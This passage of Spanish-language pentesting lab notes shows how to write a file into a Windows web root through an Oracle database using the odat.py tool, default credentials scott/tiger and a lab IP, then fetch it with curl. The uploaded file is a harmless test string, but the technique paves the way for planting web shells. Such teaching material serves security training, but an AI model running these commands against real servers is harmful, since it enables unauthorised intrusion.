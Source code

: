 |**SO**|**Ruta**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

Primero, siempre es importante intentar nuestro enfoque de explotación con archivos que no parezcan peligrosos para los sistemas de Antivirus o detección/prevención de intrusiones. Por lo tanto, creamos un archivo de texto con una cadena y lo usamos para subirlo al sistema objetivo.

### Oracle RDBMS - Subida de Archivos

```r
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finalmente, podemos probar si el enfoque de subida de archivos funcionó con `curl`. Por lo tanto, usaremos una `GET http://<IP>` solicitud, o podemos visitarlo a través del navegador.

```r
curl -X GET http://10.129.204.235/testing.txt

Oracle File Upload Test
```